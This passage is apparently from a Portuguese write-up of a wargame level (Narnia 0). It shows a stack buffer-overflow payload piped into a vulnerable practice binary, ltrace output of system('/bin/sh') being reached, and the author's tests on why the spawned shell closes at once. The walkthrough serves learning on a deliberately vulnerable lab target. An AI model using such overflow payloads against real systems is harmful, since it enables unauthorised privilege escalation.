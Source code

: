 Não houve mensagem de erro, mas também não ganhei nenhuma shell mais privilegiada. Nesse momento fiquei um pouco confuso. Usei o ltrace para tentar diagnosticar rapidamente o que poderia estar acontecendo.

```narnia0@melinda:/narnia$ python -c 'print A*20 + \xef\xbe\xad\xde' | ltrace ./narnia0
__libc_start_main(0x80484fd, 1, 0xffffd794, 0x80485a0 unfinished ...
puts(Correct val's value from 0x41414...Correct val's value from 0x41414141 -0xdeadbeef!
) = 51
printf(Here is your chance: ) = 21
__isoc99_scanf(0x8048679, 0xffffd6d8, 0x804a000, 0x80485f2) = 1
printf(buf: %s\n, AAAAAAAAAAAAAAAAAAAA\357\276\255\336Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ▒
) = 30
printf(val: 0x%08x\n, 0xdeadbeefval: 0xdeadbeef
) = 16
system(/bin/sh no return ...
--- SIGCHLD (Child exited) ---
... system resumed) = 0
+++ exited (status 0) +++
```

Aparentemente a shell é aberta mas é fechada logo depois, me deixando na merda.

O que fazer, o que fazer...

Passei um bom tempo pesquisando.

Tentando entender como <a href="https://linux.die.net/man/3/system">system</a> funcionava, criei um programa para fazer uns testes:

https://gist.github.com/anonymous/7e19de294370eebadaa0610d5ece8fa9

Compilei e o rodei para verificar se tudo funcionava como queria:

```narnia0@melinda:/tmp/0112$ gcc teste.c -oteste
narnia0@melinda:/tmp/0112$ ls
teste teste.c xpl
narnia0@melinda:/tmp/0112$ ./teste
$ exit
narnia0@melinda:/tmp/0112$ ltrace ./teste
__libc_start_main(0x40052d, 1, 0x7fffffffe6a8, 0x400550 unfinished ...
system(/bin/sh$ ls
teste teste.c xpl
$ exit
no return ...
--- SIGCHLD (Child exited) ---
... system resumed) = 0
+++ exited (status 0) +++
```

Tudo funcionando bem. O que eu queria descobrir era o comportamento da shell iniciada por system quando se passasse um input de outro comando via <a href="http://www.guiafoca.org/cgs/guia/iniciante/ch-redir.html">pipe</a> para o meu programa.

```narnia0@melinda:/tmp/0112$ python -c 'print ' | ./teste
narnia0@melinda:/tmp/0112$
```
